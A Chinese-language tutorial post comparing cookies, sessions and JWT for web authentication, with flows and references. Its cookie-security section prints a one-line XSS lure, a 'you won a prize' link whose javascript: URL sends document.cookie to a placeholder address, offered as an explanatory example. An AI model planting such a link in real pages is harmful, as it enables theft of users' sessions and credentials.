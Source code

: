 ```yaml
---
title: '身份驗證 - 猜猜我是誰'
description: '關於常見的Web身份驗證機制'
date: '2023-10-25'
category: 'Web'
tags:
  - Web
---
```


# 網頁的身份驗證機制

## 簡介

- HTTP 是一個無狀態協議（stateless），不會記住使用者是誰
- 而是把每一次收到的請求都視為獨立的行為
- 當需要記住使用者的狀態時，就需要某種機制來辨識用戶

## 快速比較

|              | Cookie                                                                     | Session                                               | JWT                                                     |
| ------------ | -------------------------------------------------------------------------- | ----------------------------------------------------- | ------------------------------------------------------- |
| 儲存位置     | 用戶端(瀏覽器)                                                             | 伺服器                                                | 用戶端(local storage or cookie)                         |
| 安全性       | 相對較低，可以被使用者修改或刪除，可使用 Secure 和 HttpOnly 屬性增加安全性 | 相對較高，使用者無法修改或刪除                        | 較安全，使用加密算法保護數據                            |
| 過期時間     | 通常會設定一段時間後就過期                                                 | 通常會設定一段時間後就過期                            | 可以在伺服器設定過期時間或使用 refresh token 延長時效性 |
| 資料傳送方式 | 在 http request 裡的 header                                                | 在 http request 裡的 Header，傳送 session id 回伺服器 | 在 http request 裡的 Header 或 url(不安全)              |
| 使用場景     | 偏向於紀錄簡單的資訊，如用戶偏好、購物車資訊                               | 適合存放較多的用戶資訊，如用戶 ID、權限等             | 適合在不同的伺服器之間共享身份驗證資訊                  |

## cookie

### 是什麼

- 是伺服器傳送給瀏覽器，並在用戶端下次訪問同一網站時，一同傳回的一小段文字資訊
- 以 key-value 的方式儲存在瀏覽器內

### 特性

- 保存在用戶端
- 例如儲存使用者的偏好設定、購物車資料等
- 通常不會儲存隱私相關的機密資訊
- 有大小數量限制，單個 Cookie 最大 4K，一個網域下最多 20 個

![cookie](https://harttle.land/assets/img/blog/cookie.png)

### 可自訂到期時間

**Session Cookie**

- 瀏覽器關閉即清除

**Persistent Cookie**

- 可以設定存在瀏覽器一段時間（明確指定 Cookie 的 Expires 時間）

### 安全性

- 在網站上動態渲染任意 HTML 是很危險的，容易導致 XSS 攻擊
- 可以加上`http only`限制只有 http 協議可以讀取，無法被 Javascript 取得

範例：偷走你的 cookie (儲存的帳密等等機密資料)

```html
<a href="javascript:location.href='url'+ document.cookie">恭喜中獎，點我前往領獎</a>
```

## session

### 是什麼

- 在伺服器端儲存用戶資訊的一種方案
- 通常會在客戶端的 Cookie 儲存憑證(session ID)

### 特性

- 將使用者相關資訊儲存在伺服器，避免被任意修改
- 在使用者完成身分認證並輸入完所需訊息之後，給予一組特定 ID，存入 Cookie 中傳回用戶端
- 下一次用戶端發出請求時，便可以利用該 ID 去辨識是否為同一使用者
- 需要在伺服器端儲存相關的 session 資訊，包括使用者身份、過期時間等等
- 每次發出請求時，需要頻繁在伺服器端比對 Session ID 和使用者資料

### 需注意的缺點

- 增加伺服器的開銷，隨著用戶數量增加，需要儲存的 session 所佔用的資源也會跟著增加
- 伺服器的擴展性差，如果使用者的 session 儲存在 Server A 上，每次請求都需要 Server A 處理
- 通常有多台伺服器時，會備份資料以防某一台伺服器故障，這樣就必須保證每台伺服器上的使用者 session 資料是一致的

### 驗證流程

1. 當使用者第一次訪問網站時，伺服器會建立一個唯一的 session ID，並將其儲存到伺服器端的記憶體或資料庫中
2. 伺服器會將此 session ID 回傳給瀏覽器，通常是透過 Cookie 的方式儲存
3. 當使用者繼續訪問網站時，瀏覽器會將此 session ID 傳回給伺服器
4. 伺服器會從記憶體或資料庫中尋找此 session ID 對應的使用者狀態，如果找不到就視為未經驗證的訪問
5. 如果伺服器找到了對應的使用者狀態，就代表此訪問是合法的，並根據使用者狀態進行相應的操作，比如回傳網頁內容或者進行其他的處理

![session](https://www.freecodecamp.org/news/content/images/2021/02/fireship-cookies.png)

## JWT (Json Web Token)

### 是什麼

- token-based 機制的其中一種實作，以 JSON 物件為主體
- 通常用於驗證使用者的身份(Authorization)
- 每次發出需要權限的請求時要帶上給伺服器驗證

### 組成

- header：類型、算法，使用 base64 編碼轉換

```json
{
  "type": "JWT",
  "alg": "HS256"
}
```

- payload：使用者相關的資訊

```json
{
  "name": "Jack",
  "grade": "3rd",
  "identity": "student"
}
```

- signature：base64 編譯後的 Header、Payload 與密鑰(secret key)透過雜湊演算法所產生

### 特性

- 保存在用戶端(瀏覽器)
- 一般不會把機密資訊(例如密碼)放在 payload 當中，因為 base64 編碼不是加密
- 回傳至伺服器只檢查簽名是否正確，不需儲存用戶資料，可減輕伺服器的負擔
- 不用在 Server 的資料庫存放 Session，特別適合多台 Server 的情境下，使得擴展性容易

### 驗證流程

1. 客戶端向伺服器端發送請求，並在 request header 中加入 JWT Token
2. 伺服器端接收到請求後，從 request header 中讀取 JWT Token
3. 伺服器端對 JWT Token 進行驗證，包括驗證簽名是否正確、是否過期、是否被篡改等
4. 驗證成功後，伺服器端可以透過 JWT Token 中的內容，確認使用者的身份，並進行相應的處理
5. 驗證失敗則拒絕請求，或者返回錯誤訊息

![token](https://www.vaadata.com/blog/wp-content/uploads/2016/12/JWT_tokens_EN.png)

## 參考資料

- [Cookie 和 Session 究竟是什麼？有什麼差別？](https://tw.alphacamp.co/blog/cookie-session-difference)
- [自問自答：Session 是什麼？與 Cookie 有什麼差異？](https://chuneck.com/what-is-session/)
- [JWT(JSON Web Token) — 原理介紹](https://medium.com/%E4%BC%81%E9%B5%9D%E4%B9%9F%E6%87%82%E7%A8%8B%E5%BC%8F%E8%A8%AD%E8%A8%88/jwt-json-web-token-%E5%8E%9F%E7%90%86%E4%BB%8B%E7%B4%B9-74abfafad7ba)
- [note JWT](https://pjchender.dev/webdev/note-jwt/)
- [2020 iT 邦鐵人賽-成為看起來很強的後端](https://www.youtube.com/playlist?list=PLS5AiLcCHgNxd341NwuY9EOpVvY5Z8VOs)
- [Session、Cookie、Token](https://juejin.cn/post/7073363137281392647)
- [認識 Cookie、Session、Token 與 JWT](https://blog.yyisyou.tw/5d272c64/)
- [JWT 的運作原理是什麼？](https://www.explainthis.io/zh-hant/swe/jwt)
- [以 axios 實踐前端 refresh token 機制](https://www.dotblogs.com.tw/wasichris/2020/10/25/223728)
